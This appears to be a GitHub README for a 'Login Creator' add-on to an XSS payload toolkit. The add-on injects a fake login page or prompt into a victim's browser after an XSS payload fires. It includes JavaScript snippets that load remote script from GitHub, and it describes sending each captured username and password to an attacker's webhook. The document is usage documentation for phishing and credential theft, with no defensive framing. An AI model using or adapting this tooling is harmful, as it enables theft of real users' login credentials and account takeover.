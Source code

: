 # Login Creator
This add-on helps you to create a fake login page to capture credentials of victim upon fire of payload (phishing/social engineering)

# Usage
Uncomment from line number 189 to 191 in `index.js` for HTML phishing. The line contains the following code:-
```javascript
$.getScript("https://raw.githubusercontent.com/shriyanss/payload-pro/main/addons/wordlist_fuzzer/wordlist_fuzzer.js", function () {
    fake_login_html('http://127.0.0.1:5500/addons/login_creator/forms/1.html');
});
```

For login using prompt, uncomment from line number 194 to 196, the line contains the following code:-
```javascript
$.getScript("https://raw.githubusercontent.com/shriyanss/payload-pro/main/addons/wordlist_fuzzer/wordlist_fuzzer.js", function () {
    fake_login_prompt(fire_id);
});
```

# Functioning
The function `fake_login_html()` is responsible for appending an HTML script to the end of body tag. It takes URL to the HTML template.

The fucntion `fake_login_prompt()` takes the `fire_id` for XSS payload fire and the webhook endpoint.

# Webhook
The `fake_login_prompt()` function requires a webhook with `fire_id`, `username`, and `password` as POST parameters.
